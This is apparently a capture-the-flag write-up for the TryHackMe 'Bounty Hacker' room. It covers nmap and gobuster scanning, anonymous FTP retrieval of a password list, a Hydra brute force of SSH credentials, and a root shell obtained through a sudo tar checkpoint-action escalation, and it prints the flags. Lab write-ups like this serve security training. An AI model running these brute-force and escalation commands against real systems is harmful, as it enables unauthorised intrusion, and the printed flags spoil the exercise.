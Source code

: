 # Bounty Hacker THM Room
## Scanning
### Nmap
```python
nmap -sC -sV -oN nmapInitial [ip]
```

```python
# Nmap 7.60 scan initiated Mon Oct 23 17:29:25 2023 as: nmap -sC -sV -oN nmapInitial target-ip
Nmap scan report for ip-10-10-76-21.eu-west-1.compute.internal (target-ip)
Host is up (0.00028s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.165
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:F5:A8:26:B0:43 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 17:29:53 2023 -- 1 IP address (1 host up) scanned in 28.09 seconds
```

### Gobuster
```
gobuster dir -u http://[ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/23 17:30:59 Starting gobuster
===============================================================
/images (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/23 17:31:25 Finished
===============================================================
```

### Netcat
#### Banner Grabbing
```
nc -vn [ip] 21
```

## Enumeration
### Port 80
- When we visit the webpage through our browser, we are greeted with the following:

![Port 80 Bounty Hacker](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/b7d0b1be-c73e-4264-8a3b-f72818e8d1c2)


- After doing a quick Gobuster scan, we can see that there is a `/images` directory. However, after further enumeration, it doesn't seem to provide us with more information. 

### Port 21
- Anonymous FTP login is enabled. Once connected, we can see two `.txt` files that could be useful. Use the `get` command to pull down the `locks.txt` and `tasks.txt` files. 
```python
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (5.7458 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (1.0093 kB/s)
ftp> 
```

- `locks.txt`
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
- This looks like a potential password list that could come in handy for brute forcing later. 

- `task.txt`
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- Lin could be a potential username we could use to brute for the SSH or FTP service that is open on the machine. 

### Hydra
- We can use the following syntax to try and brute force SSH login with the password list and username we found:
```
hydra -l lin -P locks.txt ssh://target-ip
```

- We are returned the following output with a match for credentials that will allow us to log in under the Lin user:
```python
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-10-23 17:45:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target-ip:22/
[22][ssh] host: target-ip   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2023-10-23 17:46:02
```

## System Hacking
- Using the user/password combination we found with Hydra, we can log in via SSH. This will give us the user flag:
	- User.txt - THM{CR1M3_SyNd1C4T3}

## Privilege Escalation
- Now that we have logged into the Lin user, let's look at what she can do with `sudo` permissions. 
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- We can see that the Lin user can run `/bin/tar` as root. We can look this up using GTFOBins. When we do, we can find the following syntax to spawn a root shell:
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Now that we have root permissions, we can grab the `root.txt` flag on the `root` desktop. 
	- Root.txt - THM{80UN7Y_h4cK3r}

